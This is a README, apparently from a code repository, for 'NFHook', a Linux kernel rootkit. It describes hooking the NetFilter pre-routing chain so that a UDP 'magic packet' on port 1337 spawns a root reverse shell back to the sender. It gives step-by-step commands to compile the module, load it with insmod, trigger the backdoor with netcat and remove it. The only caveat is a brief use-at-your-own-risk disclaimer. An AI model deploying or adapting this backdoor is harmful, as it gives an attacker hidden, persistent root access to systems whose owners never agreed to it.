 # NFHook: NetFilter Hooking rootkit #

This rootkit registers a hook in the NetFilter pre-routing chain with high
priority, that is all incoming packets get through this hook first.

Once a "magic packet" is received (UDP packet on port 1337), a root reverse shell is
spawned back to the requester on the very same port.

Make sure you have un reverse shell script in `/usr/bin/reverse_shell.sh`

## Compilation ##
```
	$ make
```

## Installation ##
```
	$ sudo insmod nfhook.ko
```

## Usage ##
```
	$ echo "Hello world" | nc -u $target 1337

## Removal ##
```
	$ sudo rmmod nfhook
```

## Disclaimer ##

This is an experimental rootkit. Use it at your own risks.
